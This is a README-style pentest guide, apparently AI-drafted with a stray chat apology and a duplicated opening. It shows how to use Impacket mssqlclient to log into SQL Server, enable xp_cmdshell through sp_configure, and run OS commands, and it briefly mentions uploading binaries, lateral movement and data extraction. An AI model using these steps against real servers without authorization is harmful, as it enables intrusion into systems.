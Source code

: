 # Advanced Penetration Testing with Impacket MSSQLClient

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .


I apologize for the previous errors. Here is the entire content for the `README.md` file in one markdown message for easy copying and pasting:

```markdown
# Advanced Penetration Testing with Impacket MSSQLClient

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance:

```bash
impacket-mssqlclient <username>:<password>@<hostname> -windows-auth
```

Example:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.212.18 -windows-auth
```

## Enabling Advanced Options

Before you can use certain advanced features like `xp_cmdshell`, you need to enable advanced options on the SQL Server.

### Step-by-Step Guide

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, you can execute system commands directly from the SQL Server.

### Example Commands

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

- **List directory contents**:
    ```sql
    EXEC xp_cmdshell 'dir';
    ```

- **Create a new directory**:
    ```sql
    EXEC xp_cmdshell 'mkdir C:\path\to\new_directory';
    ```

## Advanced Usage

Here are some advanced scenarios and techniques for using `mssqlclient`:

- **Uploading and Executing Scripts**:
    You can upload and execute scripts or binaries using `xp_cmdshell`.

- **Pivoting and Lateral Movement**:
    Use `mssqlclient` in combination with other tools to pivot and move laterally within the network.

- **Extracting Data**:
    Use SQL queries to extract sensitive data from the database.

## Security Considerations

Using tools like `mssqlclient` comes with significant security risks. Here are some considerations:

- Ensure you have proper authorization before performing penetration tests.
- Be aware of the potential impact of your actions on the target systems.
- Follow responsible disclosure practices if you discover vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)

## Contributing

We welcome contributions to enhance this guide. Please submit a pull request or open an issue to discuss your ideas.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
```

You can now copy and paste this entire markdown content directly into your `README.md` file on GitHub.
